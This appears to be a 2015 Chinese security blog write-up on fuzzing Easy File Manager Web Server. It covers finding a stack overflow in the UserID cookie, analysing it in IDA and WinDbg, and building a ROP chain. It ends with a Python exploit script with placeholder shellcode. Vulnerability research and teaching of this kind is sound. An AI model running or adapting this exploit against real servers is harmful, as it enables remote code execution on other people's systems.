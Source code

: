 ```yaml
---
layout: post
title:  "一次从fuzz到exp的完整经历"
date:   2015-03-22 12:48:00
categories: Exploit
---
```


## 0x0 序
这几天学了下python，拿它写了个关于HTTP的fuzz的工具，还好有几年编程基础，没在语法上较太多劲。写完后，立马找了个软件《Easy File Manager Web Server》，拿来测试一下效果。没用多久，就测出了一个BUG，下面我会详细描述这个漏洞的发现过程以及利用方法，以便可以和漏洞爱好者们share一番。值得说明的是，该漏洞一年前就被修补，可以放心的拿来分析了。

## 0x1 漏洞发现
在fuzz之前，需要先了解客户端-服务器通信的数据包的内容。打开wireshark，我这里把fuzz对象fmws.exe跑在了虚拟机上，通过主机浏览器访问

![图片1](https://turingsec.github.io/knowledge/posts/)

Wireshark捕获的数据包如下：

![图片2](https://turingsec.github.io/knowledge/posts/)

对上面几个关键的KEY做测试，最后在测试UserID字段时，发现过长的字符串会导致崩溃：

![图片3](https://turingsec.github.io/knowledge/posts/)
![图片4](https://turingsec.github.io/knowledge/posts/)

初步分析崩溃原因为：ESI为某个对象指针，超长字符串溢出淹没了ESI+10h位置上的数据edx，在调用edx+28位置上的函数时，因edx被篡改为0x90909090，导致内存非法访问。下一步来确定溢出具体位置和原因。

## 0x2 漏洞原因
给esi下硬件断点，程序断在了串处理指令内存拷贝时。结合IDA来分析漏洞原因

![图片5](https://turingsec.github.io/knowledge/posts/)
![图片6](https://turingsec.github.io/knowledge/posts/)

首先程序检查了参数arg_4的长度，arg_4是超长字符串起始地址。但是很明显是以字符串的结尾\0来计算长度，因为我测试的超长字符串为连续的0x90，所以此时ecx的值等于字符串中0x90的个数。

再来看看目的缓冲区的大小，缓冲区是位于函数栈帧的一个局部变量，在IDA中查看定义：

![图片7](https://turingsec.github.io/knowledge/posts/)

结合windbg中的内存，目测大小为0x40，范围0x03a99880-0x03a998bf。也就是说，只要发送的UserID字段的值的长度>0x40，在往位于栈内的缓冲区拷贝时，就会产生内存溢出。

## 0x3 漏洞利用
导致异常的原因是esi指向的对象，在偏移10h位置的数据被字符串修改为0x90909090，那么接下来只要确定在字符串中的偏移，就可以达到控制EIP的目的。我是还没来得及用python写个非重复字符的算法，就来测试FUZZ的效果，其实这里写个非重复字符来FUZZ会更好，一眼就能看出来偏移位置。

![图片8](https://turingsec.github.io/knowledge/posts/)

从漏洞原因一节的第一幅图可以看出，目的缓冲区是从0x03a99880开始的，导致跳转的字节为0x03a998d0，也就是说字符串偏移0x50的位置的值可以控制寄存器EIP。那么问题来了，我们需要让EIP跳转到哪里呢？在这之前，先要确定EXE加载了哪些模块，以及这些模块是否开启了DEP/ASLR。

![图片9](https://turingsec.github.io/knowledge/posts/)
![图片17](https://turingsec.github.io/knowledge/posts/)

用LoadPE查看两个PE文件的IMAGE_OPTIONAL_HEADER结构DllCharacteristics变量都等于0x0000，那么这两个PE都没有开启DEP/ASLR，那么稍后要选择的gadgets可以从这两个模块的内存空间中寻找。

观察esp寄存器的值，距离可控数据起始地址0x03a99880还有0xEC个字节，如果能够让ESP增加到可控数据地址之后，那么就可以控制程序堆栈了。在以上两个模块中寻找合适的gadget。

这里我说一下我寻找gadgets的方法。我是用VS先把汇编翻译成机器码，然后在进程空间的可用模块中搜索。一般情况下，会搜索出一些内存数据包含机器码，接下来排除一些不符合条件的地址，比如说内存不可执行，或者内存地址本身包含有坏字符（比如这个例子中的’\0’）。

![图片10](https://turingsec.github.io/knowledge/posts/)

上面找到的这个gadget在返回时提高esp超过可控数据起始地址，也就是说，执行完这段代码后，我们控制了堆栈。

在内存中搜索0x1001d87a，找到了两个地址，因为跳转时指令为call [edx+28]，故选择内存地址0x1001d918-0x28=0x1001d8f0（和查找的第一个内存地址重复了，纯属巧合）作为字符串0x50偏移处的值。

![图片11](https://turingsec.github.io/knowledge/posts/)

控制了堆栈后并确定进程没有使用DEP链接选项，因为我的虚拟机跑的是win7，默认的DEP工作状态是Optin，也就是说只要让eip跳到esp指向的可控数据，就会远程执行代码。在内存中查找jmp esp之类的操作码，找到了一处。但是该内存地址包含坏字符，如果直接把0x004d3fc3放到字符串中发送到fmws.exe，在溢出点计算长度时就会被拦截下。所以这时需要查找其他的gadget来间接拼接出地址0x004d3fc3。

![图片12](https://turingsec.github.io/knowledge/posts/)

拼接出0x004d3fc3，并跳转到该地址的办法很多，不同的环境下采用不同的方法。这里我采用这样一种方法：先在进程空间中找到类似add exx，x的代码，而且常量x的最高8位必须不为0x00，才能绕过坏字符。然后在栈空间中布局一个合理的常量，使add exx,x后的值等于0x004d3fc3，然后找到push exx, ret这样的代码，就可以执行远程代码了。

贴出几个关键的gadgets：

![图片13](https://turingsec.github.io/knowledge/posts/)
![图片14](https://turingsec.github.io/knowledge/posts/)

下面再附上一张图，实现了远程代码执行：

![图片15](https://turingsec.github.io/knowledge/posts/)

最后附上EXP：

```
import random
import socket

payload = "\x90" * 0x50;
payload += "\xf0\xd8\x01\x10";    #the address of "add esp" at poi(0x1001D8F0 + 28)=0x1001d87a;
payload += "\x90" * 0x118;
payload += "\x40\x02\x01\x10";    #add esp, 10;ret
payload += "\x90" * 0x4;
payload += "\x6a\x4e\x01\x10";    #0x0 to pass jnz
payload += "\x90" * 0x8;
payload += "\x42\x54\x01\x10";    #pop eax;ret
payload += "\x64\xe1\xef\xa4";    #5B5D5E5Fh + A4EFE164 = 004d3fc3;
payload += "\x0c\x36\x02\x10";    #add  eax,5B5D5E5Fh;ret
payload += "\x6d\x46\x02\x10";    #push eax;ret
payload += "\x0c\x0c\x0c\x0c";    #shell code
payload += "\x90" * 0x270;       

host = "192.168.14.131";
port = 80;

http = "GET /vfolder.ghp HTTP/1.1\r\n";
http += "Host: " + host + "\r\n";
http += "Connection: keep-alive\r\n";
http += "Accept: image/webp,*/*;q=0.8\r\n";
http += "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2272.89 Safari/537.36\r\n";
http += "Referer: http://" + host + "\r\n";
http += "Accept-Encoding: gzip, deflate, sdch\r\n";
http += "Accept-Language: zh-CN,zh;q=0.8\r\n";
http += "Cookie: SESSIONID=11240; UserID=" + payload + "; PassWD=;\r\n"
http += "\r\n";

sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
sock.connect((host, port));

sock.send(http);
```
